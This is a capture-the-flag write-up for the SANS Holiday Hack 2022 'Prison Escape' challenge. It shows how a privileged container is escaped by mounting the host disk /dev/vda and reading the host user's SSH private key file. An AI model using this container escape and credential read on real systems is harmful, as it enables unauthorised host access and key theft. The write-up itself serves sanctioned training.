 # SANS Holiday Hack Challenge 2022 - KringleCon V: Golden Rings
## Recover the Elfen Ring
### Prison Escape
Difficulty: :christmas_tree::christmas_tree::christmas_tree:  
Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex
string appears in the host file `/home/jailer/.ssh/jail.key.priv`?

#### Hints
##### Mount Up and Ride
*From: Bow Ninecandle*  
Were you able to mount up? If so, users' `home/` directories can be a great place to look for secrets...
##### Over-Permissioned
*From: Bow Ninecandle*  
When users are over-privileged, they can often act as root. When containers have too many [permissions](https://learn.snyk.io/lessons/container-runs-in-privileged-mode/kubernetes/), they can affect the host!

#### Solution
Literally, the first thing I did was try `sudo`, and it worked. I then spent some time poking around the container eventually noticing the `/dev/vda` disk:
```bash
grinchum-land:~# fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes
Disk /dev/vda doesn't contain a valid partition table
```
Considering the hint about `mount`, I just tried to mount `/dev/vda`, exposing a linux root file structure:
```bash
grinchum-land:~# mount /dev/vda /mnt
grinchum-land:~# mount | grep vda
/dev/vda on /mnt type ext4 (rw,relatime)
grinchum-land:~# ls /mnt
bin boot dev etc home lib lib32 lib64
root run sbin srv sys tmp usr var
libx32
lost+found
media
mnt
opt
proc
```
At that point it was pretty straightforward to find and read the flag file:
```bash
grinchum-land:~$ cat /mnt/home/jailer/.ssh/jail.key.priv | tail -n 11 | head -n 1 | cut -d "
" -f 11
082bb339ec19de4935867
```
The solution is the string `082bb339ec19de4935867` in the above output.
![root](imgs/root.png)
[https://imgur.com/sQOrznY](https://imgur.com/sQOrznY)

---
## Recover the Elfen Ring
### Clone with a Difference
### Prison Escape
### Jolly CI/CD
### The Elfen Ring
## Recover the Web Ring
### Naughty IP
### Credential Mining
### 404 FTW
### IMDS, XXE, and Other Abbreviations
### Open Boria Mine Door
### Glamtariel's Fountain
### The Web Ring
## Recover the Cloud Ring
### AWS CLI Intro
### Trufflehog Search
### Exploitation via AWS CLI
## Recover the Burning Ring of Fire
### Buy a Hat
### Blockchain Divination
### Exploit a Smart Contract
### Mistakes were made... the key
### The Burning Ring of Fire
## [Narrative](/README.md#narrative)
## [Conclusions](/README.md#conclusions)
### [The Victors shop](/README.md#the-victors-shop)
### [Inbox (1)](/README.md#inbox-1)
---
## [thedead@dellian:~$ whoami](/README.md#thedeaddellian-whoami)
## KringleCon Orientation
## Recover the Tolkien Ring